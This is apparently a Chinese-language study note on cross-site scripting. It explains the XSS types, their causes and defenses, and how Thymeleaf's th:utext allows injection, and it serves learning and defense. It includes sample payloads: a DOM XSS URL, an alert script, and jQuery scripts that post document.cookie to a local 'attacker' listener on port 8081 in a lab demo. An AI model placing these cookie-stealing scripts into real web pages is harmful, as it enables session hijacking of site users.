

### XSS

#### 概念
跨站脚本攻击：英文全称是 `Cross-site scripting`，本来缩写是`CSS`，但是为了和层叠样式表(Cascading Style Sheets)有所区别，所以在安全领域叫`XSS`。

`XSS`攻击，通常指黑客通过"HTML注入"篡改了网页，插入了恶意的脚本，从而在用户浏览网页时，控制用户浏览器的一种攻击。
在一开始，这种攻击的演示案例是跨域的，所以叫做“跨站脚本”，但是发展到今天，由于JavaScript的强大功能以及网站前端应用的复杂化，是否跨域已经不再重要。
但是由于历史原因，XSS这个名字却一直保留下来。

#### 类型
1. 反射型XSS
1. 存储型XSS
1. DOM Based XSS
1. 通用型XSS ???
1. 突变型XSS ???

#### 反射型XSS
##### 概念
简单地把用户输入的数据“反射”给浏览器。也就是说，攻击者必须以某种方式诱导用户访问一个精心设计的URL（恶意链接），才能实施攻击。
也叫做“非持久型XSS”(Non-persistent XSS)。
##### 原因
当用户的输入或者一些用户可控参数未经处理地输出到页面上，就容易产生XSS漏洞。主要场景有以下几种：
* 将不可信数据插入到HTML标签之间时；// 例如`div, p, td`
* 将不可信数据插入到HTML属性里时；// 例如：`<div width=$INPUT></div>`
* 将不可信数据插入到SCRIPT里时；// 例如：`<script>var message = " $INPUT ";</script>`
* 还有插入到Style属性里的情况，同样具有一定的危害性；// 例如`<span style=" property : $INPUT "></span>`
* 将不可信数据插入到HTML URL里时，// 例如：`<a href="[http://www.abcd.com?param=](http://www.ccc.com/?param=) $INPUT "></a>`
* 使用富文本时，没有使用XSS规则引擎进行编码过滤。


#### 存储型XSS
把用户输入的数据“存储”在服务器端。这种XSS具有很强的稳定性。
##### 场景
最常发生在由社区内容驱动的网站或 Web 邮件网站，不需要特制的链接来执行。比如博客评论，用户评论，留言板，聊天室，HTML 电子邮件，wikis
##### 攻击流程


#### DOM Based XSS
通过修改页面的DOM节点形成的XSS，从效果来看，也是反射型XSS。历史原因，把它作为了单独的分类。
##### 漏洞成因
基于DOM文档对象模型的。对于浏览器来说，DOM文档就是一份XML文档，当有了这个标准的技术之后，通过JavaScript就可以轻松的访问DOM。

当确认客户端代码中有DOM型XSS漏洞时，**诱使(钓鱼)一名用户访问自己构造的URL**，利用步骤和反射型很类似，但是唯一的区别就是，构造的URL参数不用发送到服务器端，可以达到绕过WAF、躲避服务端的检测效果。
##### 可能触发DOM型XSS的属性
* document.referer属性
* window.name属性
* location属性
* innerHTML属性
* documen.write属性
* ...
##### 防御方法
脚本通过DOM动态地输出数据到页面而不是依赖于将数据提交给服务器端，而从客户端获得DOM中的数据在本地执行，因而仅从服务器端是无法防御的。其防御在于：
1. 避免客户端文档重写、重定向或其他敏感操作，同时避免使用客户端数据，这些操作尽量在服务器端使用动态页面来实现
1. 分析和强化客户端JS代码，特别是受到用户影响的DOM对象，注意能直接修改DOM和创建HTML文件的相关函数或方法，并在输出变量到页面时先进行编码转义，如输出到HTML则进行HTML编码、输出到`<script>`则进行JS编码

##### 示例
```
http://localhost:8080/page/DomXssDemo.html?param=javascript%3Avoid(0)%27%20onclick%3Dalert(%2Fxss%2F)%20%2F%2F%27%20%3EtestLink%3C%2Fa%3E
```


#### 防御手段
1. waf（非侵入）
2. 侵入性组件
3. 业务系统内的改造
    1. 输入校验：根据场景，明确字段里面包含js脚本的字符是否在业务上能够输入，比如`< > ( )`等认定为非法字符。
    1. 输出编码：js脚本里的字符认定为能够输入的字符，但是页面展示时，需要做输出编码。
    1. 变种的特殊处理

#### 类似的组件设计
分库分表数据库中间件
1. Mycat-代理，非侵入
2. Sharding-jdbc，侵入式

#### XSS攻击平台
1. Attack API
1. BeEF
1. XSS-Proxy
1. 终极武器：XSS Worm（用户之间发生交互行为的页面，如果存在存储型XSS，则比较容易发起 `XSS Worm` 攻击。如站内信，用户留言等。而相对的，如果一个页面只能由用户个人看到，如“个人资料设置”，因为缺乏用户之间的交互功能，所以即使存在XSS，也不能被用于`XSS W  orm`的传播）

#### 实际案例


#### 示例注意点
1. 模拟生成登录cookie
    * 已存在不生成
    * 设置过期时间
    * 只针对controller开出去的接口做拦截，静态资源的访问不进行拦截（配置目录需要具体，不能配置`/static/**`）
1. 示例攻击性脚本
    * 仅仅弹框型
        ```js
        <script>alert('it is a xss test!')</script>
        ```
    * 向攻击者服务器发送请求
        ```js
        // 简单示例：AJAX请求只能发给同源的网址
        // 实际情况，攻击者监听服务器与被攻击服务器不会是同一台机器，因此监听服务需要开启
        // 为方便模拟，就不分别构件不同的代码模块，直接springboot示例同时开启8080和8081，并行启动两个示例。8080被攻击者，8081攻击者。
        <script>
         $.ajax({
            url: "http://localhost:8081/listener/log",
            type: "POST",
            dataType: "json",
            data: JSON.stringify({data: document.cookie}),
            processData: false,
            contentType: "application/json",
            success: function(arg) {
                console.log(arg);
                console.log("监听到数据");
            }
        });
        </script>
      
        压缩后的脚本：
        <script>$.ajax({url:"http://localhost:8081/listener/log",type:"POST",dataType:"json",data:JSON.stringify({data:document.cookie}),processData:false,contentType:"application/json",success:function(arg){console.log(arg);console.log("监听到数据");}});</script>
        <script>$.ajax({url:"http://localhost:8081/listener/store",type:"POST",dataType:"json",data:JSON.stringify({data:document.cookie}),processData:false,contentType:"application/json",success:function(arg){console.log(arg);console.log("监听到数据");}});</script>
        ```
1. 攻击者监听上报数据的服务，必须开启可跨域访问（被攻击者的服务肯定和攻击者的服务肯定不同源，存在跨域问题）
1. 使用`druid`管理数据源
    * 另外datasource配置下加不加`druid`都可以。多一层而已。`druid`对两个都支持。
    * druid监控页面是一个servlet，需要让SpingBoot支持servlet：http://localhost:8080/druid
1. Thymeleaf常用标签：`th:text`无XSS，`th:utext`有XSS

    | 关键字      |               功能介绍               | 案例                                                         |
    | ----------- | :----------------------------------: | :----------------------------------------------------------- |
    | th:id       |                替换id                | `<input th:id="'xxx' + ${collect.id}"/>`                     |
    | th:text     |               文本替换               | `<p th:text="${collect.description}">description</p>`        |
    | th:utext    |          支持html的文本替换          | `<p th:utext="${htmlcontent}">content</p>`                   |
    | th:object   |               替换对象               | `<div th:object="${session.user}">`                          |
    | th:value    |               属性赋值               | `<input th:value = "${user.name}" />`                        |
    | th:with     |             变量赋值运算             | `<div th:with="isEvens = ${prodStat.count}%2 == 0"></div>`   |
    | th:style    |               设置样式               | `<div th:style="'display:' + @{(${sitrue} ? 'none' : 'inline-block')} + ''"></div>` |
    | th:onclick  |               点击事件               | `<td th:onclick = "'getCollect()'"></td>`                    |
    | th:each     |               属性赋值               | `<tr th:each = "user,userStat:${users}">`                    |
    | th:if       |               判断条件               | `<a th:if = "${userId == collect.userId}">`                  |
    | th:unless   |           和th:if判断相反            | `<a th:href="@{/login} th:unless=${session.user != null}">Login</a>` |
    | th:href     |               链接地址               | `<a th:href="@{/login}" th:unless=${session.user != null}>Login</a>` |
    | th:switch   |       多路选择配合th:case使用        | `<div th:switch="${user.role}">`                             |
    | th:fragment |         th:switch的一个分支          | `<p th:case = "'admin'">User is an administrator</p>`        |
    | th:includ   |    布局标签，替换内容到引入的文件    | `<head th:include="layout :: htmlhead" th:with="title='xx'"></head>` |
    | th:replace  |  布局标签，替换整个标签到引入的文件  | `<div th:replace="fragments/header :: title"></div>`         |
    | th:selectd  |          selected选择框选中          | `th:selected="(${xxx.id} == ${configObj.dd})"`               |
    | th:src      |            图片类地址引入            | `` |
    | th:inline   |        定义js脚本可以使用变量        | `<script type="text/javascript" th:inline="javascript">`     |
    | th:action   |            表单提交的地址            | `<form action="subscribe.html" th:action="@{/subscribe}">`   |
    | th:remove   |             删除某个属性             | `<tr th:remove="all"> 1.all:删除包含标签和所有的孩子。2.body:不包含标记删除,但删除其所有的孩子。3.tag:包含标记的删除,但不删除它的孩子。4.all-but-first:删除所有包含标签的孩子,除了第一个。5.none:什么也不做。这个值是有用的动态评估。` |
    | th:attr     | 设置标签属性，多个属性可以用逗号分隔 | `比如 th:attr="src=@{/image/aa.jpg},title=#{logo}"，此标签不太优雅，一般用的比较少。` |


#### 示例
`https://github.com/moon-zhou/spring-learning/tree/master/spring-boot-xss`

#### 参考
1. 《白帽子讲Web安全》
1. [这一次，彻底理解XSS攻击](https://juejin.cn/post/6912030758404259854)
1. [关于XSS](https://juejin.cn/post/6844903926500704263)